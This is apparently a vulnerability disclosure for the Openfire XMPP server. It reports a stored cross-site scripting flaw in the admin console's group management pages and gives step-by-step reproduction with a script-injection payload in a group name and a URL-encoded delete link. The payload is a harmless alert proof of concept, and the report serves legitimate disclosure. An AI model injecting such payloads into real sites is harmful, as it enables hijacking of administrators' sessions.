 # Description

`org.igniterealtime.openfire:xmppserver` is vulnerable to `Cross-Site Scripting (XSS)`.

# Steps To Reproduce
1. Download openfire and install using https://www.igniterealtime.org/downloads/
2. Run the server http://localhost:9090/index.jsp
3. Click on "Users/Groups" http://localhost:9090/user-summary.jsp
4. Click on "Groups" http://localhost:9090/group-summary.jsp
5. Create new group http://localhost:9090/group-create.jsp
6. Insert payload in Group Name: a"><ScRiPt>alert('XSS')</ScRiPt> and create the grooup.
7. GO to Grooup summary http://localhost:9090/group-summary.jsp
8. click on delete XSS will be triggered. http://localhost:9090/group-delete.jsp?group=a%22%3E%3CScRiPt%3Ealert(%27XSS%27)%3C/ScRiPt%3E
